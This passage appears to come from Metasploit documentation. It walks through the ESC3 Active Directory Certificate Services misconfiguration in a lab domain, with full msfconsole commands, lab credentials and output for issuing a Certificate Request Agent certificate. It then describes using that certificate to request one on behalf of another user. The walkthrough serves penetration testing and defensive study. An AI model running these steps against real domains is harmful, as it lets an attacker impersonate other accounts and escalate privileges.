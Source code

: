 ```msf
```

### Issue A Certificate With The *Certificate Request Agent* EKU (AKA ESC3)
In this scenario, an authenticated user exploits a misconfiguration allowing them to issue a certificate from a template
that either contains the **Certificate Request Agent** EKU.

The user must know:

* A vulnerable certificate template, in this case `ESC3-Test`.
* A target account, in this case `MSFLAB\smcintyre`.

The steps are identical to ESC2. First a certificate is requested using the vulnerable template. Then it is used to
request another certificate on behalf of the target account.

#### Step 1
The first step is to issue a certificate using the vulnerable certificate template.

```msf
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser aliddle
SMBUser => aliddle
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass Password1!
SMBPass => Password1!
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA msflab-DC-CA
CA => msflab-DC-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC3-Test
CERT_TEMPLATE => ESC3-Test
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 192.168.159.10

[*] 192.168.159.10:445 - Connecting to ICertPassage (ICPR) Remote Protocol
[*] 192.168.159.10:445 - Binding to \cert...
[+] 192.168.159.10:445 - Bound to \cert
[*] 192.168.159.10:445 - Requesting a certificate...
[+] 192.168.159.10:445 - The requested certificate was issued.
[*] 192.168.159.10:445 - Certificate UPN: aliddle@msflab.local
[*] 192.168.159.10:445 - Certificate SID: S-1-5-21-3402587289-1488798532-3618296993-1106
[*] 192.168.159.10:445 - Certificate stored at: /home/smcintyre/.msf4/loot/20221107154656_default_unknown_windows.ad.cs_831021.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

#### Step 2
The second step is to run the module a second time, using the certificate template to request a certificate on behalf of
the target user. The `CERT_TEMPLATE` option is updated to one allowing authentication such as the default `User`
template.


[KB5014754]: https://support.microsoft.com/en-us/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16